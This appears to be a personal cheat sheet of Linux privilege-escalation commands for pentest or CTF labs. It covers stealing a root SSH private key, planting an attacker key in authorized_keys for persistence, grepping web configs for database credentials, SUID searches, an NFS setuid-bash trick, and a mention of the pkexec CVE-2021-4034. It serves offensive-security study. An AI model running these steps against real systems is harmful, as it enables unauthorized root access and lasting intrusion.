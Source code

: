 
ssh user@IP -p xx

Sometimes we do not have the password, then we need to use Hydra to brute force

**Horizontal Escalation**
Escalate privilege from a "normal user" to a "another normal user"

**Command to check SUDO Privileges**
sudo -l

**Escalate privilege**
sudo -u "USERNAME" /bin/bash


**Vertical Escalation**
Escalate privilege from a "normal user" to a "root user"

Find for **.ssh** directory
Find the file id_rsa
cat id_rsa 
Copy entire id_rsa content
In my local terminal machine, create a new file and paste the content and save the file
Give permission on the file using the command chmod 600 id_rsa
ssh root@IP -p XXX -i id_rsa

**Persistence**
Find for **.ssh** directory
Find the **authorized_keys**
Update the content with your public key and save the file
ssh-keygen -f "KEY"

###################################################

**Check permissions**
ls -l
stat --help
stat -c "%a %A %U %G %F" "FILE NAME"

**Check Users' Groups**
groups "username"

**Check File Dependences**
strings "FILE NAME"

**Copy content to a new file**
cp /bin/bash "file name"

**Executing files**
./"file name"

/var/www/html
grep -nr "db_user"
/local/config/database

###################################################

LinEnum
LinPeas
chmod +x  "FILE"

###################################################
**SUID**
find  / -perm 4000 -ls 2>/dev/null

###################################################
**MOUNT**
showmount -e $IP => folder will be shown in here
mount -e ntfs $IP:/$folder /tmp/sharefolder
cp /bin/bash /tmp/sharefolder/bash
chmod +s /tmp/sharefolder/bash
Login via ssh
./bash -p

###################################################
**CVE-2021-4034**
pkexec
